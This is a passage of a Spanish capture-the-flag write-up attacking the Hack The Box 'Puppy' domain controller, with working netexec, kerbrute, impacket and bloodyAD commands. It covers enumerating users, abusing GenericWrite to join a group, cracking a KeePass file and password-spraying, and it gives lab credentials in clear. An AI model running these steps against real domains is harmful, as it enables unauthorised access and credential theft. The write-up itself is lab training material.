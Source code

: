 levi.james:KingofAkron2025!
## Reconocimiento

Empezaremos realizando un reconocimiento con la herramienta de [[RUSTSCAN]] que es un [[NMAP]] con esteroides:
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

```ad-info
rustscan tambien usa herramintas de nmap para una mejor respuesta sobre el reconocimiento de puertos
```

Los puertos encontrados mas relevantes son:
```js
53 - DNS
88 - kerberos
111 - rpcbind
389 - LDAP
445 - SMB
5985 - WinRm
```

Usaremos [[CRACKMAPEXEC-NETEXEC]] para enumerar información básica del servicio **LDAP**.
`netexec ldap $IP 2>/dev/null` 

```js

LDAP $IP 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)

```

Nos muestra: el protocolo `LDAP` la `IP` y el puerto `389`, a continuación nos muestra el rol del host `DC` que es **Domain Controller**, identificación del sistema operativo , nombre del host y dominio completo `FQDN`


Usaremos la herramienta de `https://github.com/Gzzcoo/iRealm` para añadir la maquina al `/etc/hosts` y el nombre de dominio y FQDN a `/etc/krb5.conf`
`iRealm --force $IP PUPPY.HTB DC`


Verificamos las credenciales que nos han aportado son validas con [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!'`

Nos mostrara que las credenciales son validas


Buscamos recursos compartidos en el servicio *SMB* con [[CRACKMAPEXEC-NETEXEC]]
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Usaremos la opción `--shares` para listar los recursos compartidos y el modulo `-M spider_plus` para hacer una búsqueda profunda de recursos compartidos nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

### Enumeración Usuarios

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`

```ad-hint    
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

Enumeración de usuarios y verificar que exista en el dominio con la herramienta [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames`

 O también podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
 `netexec ldap $IP -u users.txt -p '' -k`

 ```ad-note
   El error KDC_ERR_PREAUTH_FAILED la contraseña no funciona pero existe el usuario
  El error KDC_ERR_CLIENT_REVOKED existe el usuario
 ```
 


```ad-info
### Verificacion de firerentes vectores de ataque
#### AS-REP ROASTING (Sin creds)
Busca obtener _hashes_ de contraseñas de usuarios que tengan deshabilitada la **preautenticación Kerberos**
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque.

#### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga **serviceprincipalname** (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque.  
```


### Recopilacion de datos de AD

Recopilaremos unformacion del LDAP y lo guardaremos en un `.zip` que es le usaremos para subir al **BloodHound**, usaremos la herramienta [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server $IP`
Usaremos la opcion `--bloodhound` que activa el modulo de recoleccion de datos, usamos tambien `--collection All` especifica que se usen todos los metodos de recoleccion de datos. Y `--dns-server $IP` se usa para que la herramienta use el **DC** como DNS.

EL archivo que nos genera lo subiremos a **BloodHound**

```ad-note
Para ejecutar **BloodHound** hemos creado un script el cual para levantar el servicio solo tendremos que hacer `bloodHound up` y navegar a la web.
```

Añadimos usuario a grupo DEVELOPERS por que tenemos generic write
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos vovemos a acceder al smb y vemos que tenmos acceso a DEV
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de keepass `kdbx` 
`recovery.kdbx`

Nos descargamos el archivo 
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

Lo añadimos a Keepassxc el archivo y nos pide una passwd
como no la tenemos la hacemos fuerza bruta

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`

Dentro del archivo encontramos contraseñas, que las añadimos a un archivo y lo guardamos
Y haremos fuerza bruta a los primeros usuarios encontrados
`nxc ldap $IP -u users.txt -p pass.txt --continu-on-success | grep '[+]'`
Nos encuentra el siguiente user
`[+] PUPPY.HTB\ant.edwards:Antman2025!`




